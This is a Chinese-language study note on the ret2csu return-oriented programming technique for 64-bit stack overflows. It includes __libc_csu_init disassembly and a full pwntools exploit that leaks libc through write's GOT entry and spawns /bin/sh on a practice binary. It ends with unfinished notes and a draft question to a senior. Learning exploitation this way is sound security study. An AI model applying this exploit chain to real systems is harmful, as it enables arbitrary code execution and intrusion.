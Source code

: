 # 中阶ROP

这个主要涉及到，64位的栈溢出，涉及到寄存器的取用。利用比较巧妙地Gadgets。

## ret2csu

直接例题上来，边看边讲原理。

**在64位的程序中，前六个参数存在寄存器里面，而不是在栈上，所以要构造栈结构的时候，特别是要构造参数的时候，就要利用到相应的寄存器，的pop.(这里回想一下，利用系统调用的原理。)**

这里有个特例，几乎相当于一个万能公式。

在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的 gadgets。  这时候，我们可以利用 **x64 下的 __libc_csu_init 中的 gadgets**。这个函数是用来对 libc  进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。我们先来看一下这个函数 (当然，不同版本的这个函数有一定的区别)

```shell
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

*不难发现，40061A这一段*往下全是我们要的gadgets,而上面那一段，*400600*往下都是对这些寄存器的操作。



**值得注意的是，这里**`0000000000400606                 mov     edi, r15d`**这句话是赋值给edi，edi是32位的存储器，只有32位二进制**，所以这里的mov只能把r15的低32位传给edi。（但是rdi是兼容edi的，所以rdi此时的高32位其实为0）所以我们可以控制rdi的低32位。

![image-20210207210050191](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210207210050191.png)

这是一个重点，我们恰巧发现，前三个rdi rsi rdx寄存器刚好是我们的上面**三个mov语句**

此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。



从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为 rbx+1 = rbp，这样我们就不会执行 loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置 rbx=0，rbp=1。



![image-20210208102532350](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210208102532350.png)



暂时没看懂.

懂了，dog/dog/dog。

上面为什么要覆盖aaa····在last的前面呢?，因为，我们前一步跳转到了csu_front并且，汇编中，指令是在.text段按顺序执行的，所以当我们修改完参数之后，函数又运行到了csu_end，这时候，函数首先add rsp, 8,接着又来了6个pop所以为了跳过这几个，我们需要填充 6*8 + 8 =56=0x38个辣鸡字节直接运行retn，然后我们的last就会被指令寄存器当作下一个返回地址了。。。



这里要注意的是，64位程序中，retn仿佛是必要的，不会像32位一样傻傻的，构造ROP链容易破坏栈结构。

然后就是快乐的写exp了。

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')
write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15dkk
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()

```

-----

## 思考和改进

> - 思考

我们这次输入的字节长达128，有些题目会对长度进行限制，那么我们要通过什么来减少输入的字节长度呢？

> -第一点

改进rbx和rbp,可以看到，为了不再次跳回循环，我们控制两个的值位rbx+1 = rbp,如果我们

## 最后上一张图

![image-20210207210715655](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210207210715655.png)





学长好，夜晚打扰不好意思，我想问你一个关于64位程序ROP构造的问题。构造64位ROP链的时候，因为调用约定不和32位相同，需要构造栈结构，然后我有一直写不出来，后来我发现，别人的exp，每次回到调用函数的时候，会有一个额外的填充。

![image-20210209235250778](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210209235250778.png)

就是这个，然后我查资料，说是填充pop，只需要retn那为什么每个不同的64位程序填充都不一样呢？

![image-20210209235412334](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210209235412334.png)

按理说大小都一样啊。

不同的汇编，对应不同的代码，所以有不同的大小。

